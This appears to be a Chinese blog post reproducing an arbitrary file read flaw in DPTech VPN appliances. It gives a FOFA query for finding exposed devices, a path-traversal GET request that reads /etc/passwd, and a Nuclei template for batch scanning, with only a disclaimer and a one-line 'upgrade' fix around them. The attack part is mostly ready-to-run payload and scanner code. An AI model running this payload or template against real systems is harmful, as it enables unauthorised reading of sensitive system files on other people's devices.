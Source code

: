 # 原创
：  漏洞复现--迪普DPTech VPN 任意文件读取

# 漏洞复现--迪普DPTech VPN 任意文件读取

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

杭州迪普科技股份有限公司DPTech VPN 存在任意文件读取漏洞，攻击者可以构造恶意请求，通过漏洞读取服务器上的任意文件。

### 二：漏洞影响版本

DPTech VPN

### 三：网络空间测绘查询

fofa:<br/> `cert="DPtechCa"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bdbf666a19732a5172caa58fc7f9c000.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e9931b85d8421888c53502f27298166d.jpeg"/><br/> POC:

```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2e298c77dcba6cdcc43136b75a5f9aa0.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/46924d8bea5fec014421d8ee3cd8c1ca.jpeg"/>

### 五：批量检测

```

id: dptech-vpn-fileread

info:
  name: dp-vpn-fileread
  author: rain
  severity: high
  description: DPtech SSL VPN 服务存在一个文件读取漏洞，攻击者可以通过利用此漏洞读取目标系统上的敏感文件。该漏洞可能导致未经授权的信息泄露，危及系统的机密性和完整性。
  metadata: 
    fofa-query: title=="SSL VPN Service" &amp;&amp; header="Dptech" || cert="DPtechCa"

http:
  - raw:
      - |     
        GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36

    matchers:
      - type: dsl
        dsl:
          - 'status_code==200 &amp;&amp; contains_all(body,"root")'

```

### 六：修复建议

升级到最新版本
